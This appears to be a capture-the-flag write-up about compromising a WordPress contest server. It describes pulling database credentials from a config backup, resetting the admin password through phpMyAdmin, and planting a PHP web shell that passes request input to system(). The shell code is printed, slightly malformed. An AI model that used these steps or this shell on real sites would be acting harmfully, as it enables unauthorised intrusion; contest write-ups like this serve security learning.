 ```yaml
---
layout:     post
title:      "Writeup - Capture South Africa"
subtitle:   "Write-Up"
date:       2018-10-01 
author:     "Abhishek S"
permalink: /:title/
category: Boot2Root
---
```


<center>![](/img/redteam/redteamlogo.png) </center>


This is a write-up for the WEB-APP Challenge [Capture South Africa] in Redteamvillage’s CTF event at Defcon TVM 0x02.


<center>![](/img/redteam/redteambanner.jpg)</center>


Special thanks to my awesome team members of defcon_speakers_0x02 (Sreeram KL & Vishnuprasad PG)

<p>

http://l.xyz was a web application which was running wordpress instance, while doing basic enumeration, i noticed that the wordpress version used was the most latest one, and the first post was something fishy, the first post’s author name was ‘victimcorp’… i was checking for common vulnerablities that were present in wordpress, i checked for vulnerable plugins and stuff, but couldn’t find any and all were latest, i remember reading a POC in which wp-config file was downloadable, so i thought to try that, but i failed, then i tried adding a .bak (i.e: http://l.xyz/wp-config.php.bak) and there was a backup file, and it did download! </p>


<p>Hurray!!!, I’ve checked it and it was the common config file with the configuration & credentials of the database, I’ve got the username and password from there, I checked for the open ports & instances with nmap, and it was pretty surprising that there was no instance related to DB running, I suddenly got an idea, i just went into /phpmyadmin/ and tried the db credentials! hurray! i logged into the phpmyadmin dashboard, i went to the corresponding database and went to the table wp-users, the password for admin there was encrypted, so i got an idea, instead of decrypting that, i just encrypted ‘test123’ into wordpress salted pass, and updated the pass of user ‘victimcorp’ with an sql DML command.  </p>
  
 <p> 
then, i went to /wp-admin/ and logged into the admin account, we all thought that the flag would be inside the admin panel, but it was not there! where was it? suddenly i got an idea to shell the server, i went to themes, and added a .php file with the following code. </p>

```
<?
<HTML>
<BODY>
<FORM METHOD=”GET” NAME=”cmdform” ACTION=””>
<INPUT TYPE=”text” NAME=”linux command”>
<INPUT TYPE=”submit” VALUE=”command”>
</FORM>
<?
if($_GET[‘cmd’]) {
system($_GET[‘cmd’]);
}
?>
</BODY></HTML>
</code>
```


<p>
and used ls, and some basic commands, and the flag was inside the /www2/ directory in a file called flag.txt
This was a webapp challenge in the redteamvillage’s ctf, and i loved pr3wning it! There were 6 challenges in total, and our team managed to solve 5 of them, and won the 2nd place :) </p>

<p>
Thanks for reading, I hope it was a good read!
P.S: I’ve wanted to make a writeup for the other challenges too, but i don’t have much time with me in order to do that :(
Bug Bounty Hunting
  </p>
